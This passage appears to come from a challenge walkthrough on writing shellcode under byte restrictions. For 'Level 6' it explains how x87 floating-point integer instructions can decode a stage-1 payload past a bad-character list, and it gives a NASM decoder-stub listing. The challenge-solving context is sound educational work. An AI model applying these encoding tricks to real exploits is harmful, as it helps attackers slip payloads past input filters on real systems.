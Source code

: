 Level 6
-------

```
Bad char list "\x0a\x0d\x2f\xff\x0f\x05\x68 and \x40 to \x81" max size 90 bytes.
```

Things are beginning to look grim! Every time I came up with a solution, the next level would list one or more crucial bytes as a bad char. This time, `0x81` became a bad char, blocking the use of the `xor`. 

I turned again to the gigantic table over at [ref.x64asm.net](http://ref.x86asm.net/coder64.html). I flipped through the list of available opcodes, looking for things that would allow me to decode and carve out the shellcode. Finally, my eyes caught the floating point instructions. One of the variants allows the use of integers as arguments for floating point operations:

```
fild dword [rax+rbx*4]
fiadd dword [rax+rcx*4]
fistp dword [rax+rcx*4]
```

These instructions do not contain bad chars! Furthermore, they allow the use of `rax` as a pointer to the shellcode, enabling us to carve out stage 1. I used a similar trick as in level 5 to check the viability of this technique:

```
bits 64

_start:
jmp _decode
nop
nop                     ; align the encoded shellcode to a dword boundary

_stage1:

_0 dd 0xc3c3c3c3        ; these rets should be transformed into jmp $-2
_1 dd 0x90909090
_2 dd 0x90909090
_3 dd 0x90909090
_4 dd 0x90909090
_5 dd 0x90909090
_6 dd 0x90909090

_8 dd 0x3b283b28        ; funny enough, the constant for the add is the same as for the xor!
_9 dd 0x90909090
_a dd 0x90909090
_b dd 0x90909090
_c dd 0x90909090
_d dd 0x90909090
_e dd 0x90909090

_decode:                ; i'd call this stage 0
xor ecx,ecx             ; clear ecx and rcx
xor ebx,ebx             ; clear ebx
mov cl, (_6-_start)/4   ; starting dword for shellcode 
mov bl, (_e-_start)/4   ; starting dword for decoding constants
_decodeloop:
fild dword [rax+rbx*4]  ; load integer into st0
dec bl
fiadd dword [rax+rcx*4] ; add constant to st0
fistp dword [rax+rcx*4] ; store integer at this position, effectively decoding the instructions
loop _decodeloop        ; use the fact that rcx is now an index and a counter

jmp _stage1             ; jump to -hopefully- decoded shellcode
```
